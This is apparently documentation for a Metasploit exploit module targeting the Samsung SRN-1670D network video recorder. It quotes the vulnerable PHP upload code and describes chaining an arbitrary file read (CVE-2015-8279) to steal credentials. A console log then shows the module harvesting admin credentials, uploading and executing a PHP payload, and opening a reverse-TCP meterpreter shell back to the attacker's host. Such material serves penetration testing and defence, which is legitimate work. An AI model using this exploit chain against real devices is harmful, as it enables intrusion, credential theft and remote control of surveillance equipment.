 ## Description

Samsung NVR Recorder SRN-1670D is a high performance network video recorder. An arbitrary file
upload vulnerability was found in the Web Viewer component, which could allow an authenticated
user to upload a PHP payload to get code exuection. The vulnerable code can be found in
network_ssl_upload.php:

```php
    22 $path = "./upload/";
    23 $file = $_FILES[ "attachFile" ];
    24 $isApply = ( int )$_POST[ "is_apply" ];
    25 $isInstall = ( int )$_POST[ "isInstall" ];
    26 $isCertFlag = ( int )$_POST[ "isCertFlag" ];
    27 
    28 // create socket
    29 $N_message = "";
    30 $sock = mySocket_create($_is_unix_socket);
    31 $connected = mySocket_connect($_is_unix_socket, $sock);
    32 
    33 $loginInfo = new loginInfo();
    34 $retLogin = loginManager( $connected, $sock, null, $loginInfo );
    35 if ( ( $retLogin == true ) && ( $isApply == 2 || $isApply == 3 ) ) {
    36  if ($connected) {
    37   $id = $loginInfo->get_id();
    38   $xmlFile = $id.'_config.xml';
    39   $N_message = "dummy".nvr_command::DELIM;
    40   $N_message .= "userid ".$id.nvr_command::DELIM;
    41   
    42   if ( $isInstall == 1 ) {
    43    // File upload ===============================================================  
    44    if ( $file[ "error" ] 0 ) {
    45     $Error = "Error: ".$file[ "error" ];
    46    } else {
    47     $retFile = @copy( $file[ "tmp_name" ], $path.$file[ "name" ] );
    48    }
    49    // ===========================================================================
    50   }
```

To avoid the need of authentication, the exploit also takes advantage of another vulnerability
(CVE-2015-8279) in the log exporting function to read an arbitrary file from the remote machine
in order to obtain credentials that can be used for the attack.

## Vulnerable Application

Samsung NVR Recorder SRN-1670D is a hardware:

http://www.samsungcc.com.au/cctv/ip-nvr-solution/samsung-dvr-srn-1670d

## Scenarios

```
msf exploit(samsung_srv_1670d_upload_exec) > show options 

Module options (exploit/multi/http/samsung_srv_1670d_upload_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST    192.168.1.200      yes       The target address.
   RPORT    80               yes       The target port (TCP).
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.122      yes       The listen address
   LPORT  4358             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Samsung SRN-1670D == 1.0.0.193


msf exploit(samsung_srv_1670d_upload_exec) > exploit -j 
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.1.122:4358 
msf exploit(samsung_srv_1670d_upload_exec) > [*] Obtaining credentails...
[+] Credentials obtained successfully: admin:pass123!
[*] Logging...
[+] Authentication Succeeded
[*] Generating payload[ eRdGKfFJ.php ]...
[*] Uploading payload...
[*] Executing payload...
[*] Sending stage (33986 bytes) to 192.168.1.200
[*] Meterpreter session 3 opened (192.168.1.122:4358 -> 192.168.1.200:55676) at 2017-06-19 11:52:22 +0100
```